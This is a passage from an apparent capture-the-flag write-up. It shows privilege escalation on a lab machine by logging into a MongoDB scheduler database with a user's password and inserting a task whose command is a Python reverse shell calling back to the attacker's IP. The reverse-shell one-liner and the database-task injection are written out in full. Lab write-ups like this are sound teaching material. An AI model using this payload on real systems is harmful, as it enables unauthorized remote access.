 ![](../images/max/463/1*m1Xbnhc76OWw5MgSrAfvjQ.png)

We login using mark’s credentials and access the scheduler database. The set interval function seems to be checking for documents \(equivalent to rows\) in the tasks collection \(equivalent to tables\). For each document it executes the cmd field. Since we do have access to the database, we can add a document that contains a reverse shell as the cmd value to escalate privileges.

Let’s connect to the database.

```text
mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler
```

* **-u:** username
* **-p:** password
* **host:port/db:** connection string

Let’s run a few commands to learn more about the database.

```text
# Lists the database name
> db
scheduler# Shows all the tables in the database - equivalent to 'show tables'
> show collections
tasks# List content in tasks table - equivalent to 'select * from tasks'
> db.tasks.find()
```

The tasks collection does not contain any documents. Let’s add one that sends a[ reverse shell ](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)back to our attack machine.

```text
# insert document that contains a reverse shell
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})# double check that the document got added properly.
db.tasks.find()
```
